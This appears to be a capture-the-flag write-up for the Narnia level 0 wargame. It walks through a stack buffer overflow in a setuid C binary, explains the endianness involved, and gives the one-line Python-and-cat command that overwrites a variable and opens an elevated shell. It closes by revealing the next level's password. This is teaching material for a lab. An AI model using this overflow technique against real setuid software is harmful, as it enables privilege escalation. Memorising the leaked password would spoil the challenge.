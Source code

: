 # Narnia Level 0  

In this level we have a binary narnia0 that runs suid as narnia1 and the source code  

THe source code is as follows:  
```c  
#include <stdio.h>  
#include <stdlib.h>  
  
int main(){  
    long val=0x41414141;  
    char buf[20];  
  
    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\\n");  
    printf("Here is your chance: ");  
    scanf("%24s",&buf);  
  
    printf("buf: %s\\n",buf);  
    printf("val: 0x%08x\\n",val);  
  
    if(val==0xdeadbeef){  
        setreuid(geteuid(),geteuid());  
        system("/bin/sh");  
    }  
    else {  
        printf("WAY OFF!!!!\\n");  
        exit(1);  
    }  
  
    return 0;  
}  
```
In this challenge we are told to change the value of the variable val to 0xdeadbeef  

Here we can exploit scanf to input more data than necessary and commit a buffer overflow attack  

The variable val is placed on the stack and we have our buffer buf is placed above it as Stacks grow from high memory addresses to low memory addresses.   

![956e4133.png](../src/956e4133.png)  

If we place more information onto the stack than the stack can hold we can overwrite the contents of the variable val  

If we run the program we get the output  
![03300bec.png](../src/03300bec.png)  

Here we see that we have not overwritten val as there is still free space in the stack  

If we instead fill the input box with letters lets see what happens:  
![740561a8.png](../src/740561a8.png)  

Here we see that val is now equal to `0x58575655`  

if we convert this to ASCII we can see what it now contains  
![ed6190ce.png](../src/ed6190ce.png)  

As you can see val now contains XWVU which is the 24th to 21st letter of our input string  
This means that we over flow val after 20 characters but why is it backwards?  

This is due to endianness which refers to the order of bytes within a binary representation of a number  

The numbers in this are stored in reverse order for each 4byte section  
So our string is stored as:  
> String: ABCDEFGHIJKLMNOPQRSTUVWXYZ  
> Endian Representation: DCBAHGFELKJIPONMTSRQXWVUZY  

Now we need to change the value to `0xdeadbeef` so using little endian this becomes `0xef 0xbe 0xad 0xde`  

One small problem is when we type this into the input provided by the program it will be interpreted as ascii so we need to use python to print out our overflow string  

We will use a command like this to enter data into the program:  

![0f3eed38.png](../src/0f3eed38.png)  

This program prints 24 B's and then pipes the output of that command into our program  

Now we know the buffer length and correct string we have to enter all we need to do is create the correct python command  

In python when printing hex numbers you place \\x before them this makes our final command:   
`python -c 'print "A"*20 + "\\xef\\xbe\\xad\\xde"' | ./narnia0`  

After running this command the output is as follows:  
![15a24259.png](../src/15a24259.png)  

This time we do not get the "WAY OFF!!!!" text and we can see that we have changed value to the correct number however we didnt get a shell  

We need to persists the command shell executed by `system("/bin/sh")`  
To do this we can pass a command into the program in the format `(command 1 & command 2) | ./prog`  

This will pass the output of the first command into the scanf() and by passing the **cat** command into the program it keeps the elevated shell open  

The final command becomes:  
`(python -c 'print "A" * 20 + "\\xef\\xbe\\xad\\xde"' & cat) | ./narnia0'`  

After executing this command we are greeted with this:  
![a0d92eb3.png](../src/a0d92eb3.png)  

It is just a text prompt so there is no username however this allows us to enter commands like so:   
![5cc9df88.png](../src/5cc9df88.png)  

After some exploring we find the password is  `efeidiedae`  
